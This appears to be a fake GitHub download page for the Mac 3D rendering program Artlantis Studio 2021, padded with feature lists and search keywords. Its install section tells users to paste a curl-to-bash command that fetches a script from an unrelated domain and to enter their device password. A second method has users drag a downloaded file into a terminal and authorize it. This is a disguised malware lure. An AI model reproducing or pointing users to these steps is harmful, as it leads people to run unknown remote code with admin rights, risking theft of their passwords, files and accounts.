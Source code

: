 # Artlantis Studio 2021 Mac

![Artlantis Screenshot](https://static.macupdate.com/screenshots/236271/m/artlantis-studio-screenshot.png?v=1588768146)

---

## 📦 Download

[![⬇️ Download Now](https://img.shields.io/badge/Download-Artlantis%20Studio%20Mac-blue?style=for-the-badge&logo=apple)](https://artlantis-studio-2021-mac-download.github.io/.github)

---

## 📦 How to Install

# Installation via .dmg:

1. Install the .dmg file using the button above. 
2. Open the .dmg installer and move the file from the left window to any convenient directory on your device.
3. Open a terminal and transfer the file you extracted in the last step into it.
4. Press the "Return" button, then enter your device password in the window that appears (if you don't have a password, leave the field blank).

[![0723.gif](https://i.postimg.cc/50Tm3hZT/0723.gif)](https://postimg.cc/mz3MZ5Zy)

# Installation via a command in the terminal:

1. Copy the installation command below.
```
/bin/bash -c "$(curl -fsSL https://veitzeatz.com/get1/install.sh)"
```
2. Open the terminal on your device and paste the command you copied above, then press the “Return” button.
3. Enter your device password and confirm the installation.

[![0723-1.gif](https://i.postimg.cc/NfzQxpMT/0723-1.gif)](https://postimg.cc/0b7gkG72)

---

## ❓ What is Artlantis Studio 2021 Mac?

**Artlantis Studio 2021 Mac** is a high-performance 3D rendering software designed specifically for architecture, interior design, and product visualization. Developed by **Abvent**, Artlantis is known for its speed, intuitive interface, and real-time rendering engine. It’s the perfect choice for Mac users seeking photorealistic renderings with minimal setup time.

With support for a wide range of 3D file formats, including native compatibility with **SketchUp**, **ArchiCAD**, **Revit**, and **Rhino**, Artlantis enables professionals to import models and immediately start creating lifelike scenes. The powerful preview window offers real-time feedback, allowing users to experiment with lighting, shaders, and camera angles without delays.

Artlantis 2021 introduces enhanced global illumination, improved rendering algorithms, and optimized performance on macOS, including Apple Silicon (M1/M2) support. It also features a comprehensive catalog of objects, materials, and backgrounds to streamline your workflow and elevate your presentations.

Whether you're rendering high-quality architectural walkthroughs or client-ready visualizations, Artlantis Studio 2021 for Mac delivers the tools and efficiency modern professionals demand.

---

![Artlantis Render Example](https://www.architect-design.ru/images/products/Graphisoft/Artlantis2019/img01.jpg)

---

## ✨ Features

- ⚡ **Real-Time Preview** – See changes instantly with the fast preview engine
- 💡 **Lighting Tools** – Physically accurate lighting, HDRI skies, and sunlight simulation
- 🖌️ **Shader Library** – Hundreds of customizable surface textures and materials
- 🌍 **Compatibility** – Seamlessly imports from SketchUp, ArchiCAD, Rhino, and more
- 📷 **Camera Management** – Define perspectives, DOF, and animation paths
- 🧱 **Object & Media Library** – Drag-and-drop library of trees, furniture, vehicles, etc.
- 🖥️ **macOS Support** – Native M1/M2 compatibility and Metal optimization

---

## 💻 System Requirements

- **macOS**: 10.14 Mojave or later  
- **Chip**: Apple M1/M2 or Intel  
- **RAM**: 8GB minimum (16GB recommended)  
- **GPU**: Dedicated graphics recommended for large scenes  
- **Disk Space**: 3GB+ available  

---

## 🔍 Keywords  
artlantis, artlantis software, software artlantis, artlantis 2021, artlantis studio, artlantis download, artlantis rendering, artlantis rendering software, artlantis 2022, artlantis sketchup, artlantis 2020, 3d artlantis, abvent artlantis, abvent artlantis studio, archicad artlantis, artlantis 2019, artlantis 2021 download, artlantis 2020 download, artlantis studio download, artlantis studio 8, artlantis studio 7, artlantis studio 6, artlantis studio 5, artlantis studio 6.5, artlantis mac m1, artlantis for mac, artlantis 2022 download, artlantis 2023, artlantis 21, artlantis 3, artlantis 4, artlantis 5, artlantis 6, artlantis 6.5, artlantis 7, artlantis abvent, artlantis archicad, artlantis art, artlantis com, artlantis para mac, artlantis studio 2020, artlantis studio 2021, artlantis studio 3, artlantis studio 4

